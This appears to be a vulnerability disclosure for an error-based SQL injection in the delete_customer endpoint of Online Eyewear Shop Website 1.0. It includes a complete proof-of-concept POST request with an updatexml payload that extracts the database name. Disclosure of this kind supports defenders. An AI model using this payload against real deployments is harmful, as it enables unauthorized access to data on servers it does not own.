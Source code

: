 ## Online Eyewear Shop Website has a front-end SQL injection vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/classes/Users.php?f=delete_customer

## Description:
The online eyewear store website 1.0 has a SQL injection attack in the id parameter in the route /oews/classes/Users.php?f=delete_customer. 
Attackers can exploit this vulnerability to directly obtain sensitive information from the server.

Status: CRITICAL

POC
```
POST /oews/classes/Users.php?f=delete_customer HTTP/1.1
Host: localhost
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p65p1sp36htfqevfnhij1jvtie
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

id=1 and updatexml(1,concat(0x7e,(database())),3)-- q
```

Get the database name directly through the error report: oews_db

![CleanShot 2025-04-03 at 11 25 40@2x](https://github.com/user-attachments/assets/5446d8bd-c07a-4a21-a41f-d31cdab6a5d7)


## Code Analysis
The id parameter is controllable and directly introduced into the SQL statement, causing a SQL injection vulnerability.
![CleanShot 2025-04-03 at 11 26 09@2x](https://github.com/user-attachments/assets/c5d3de8e-37a9-44cf-acd8-f61e1c70b1b5)


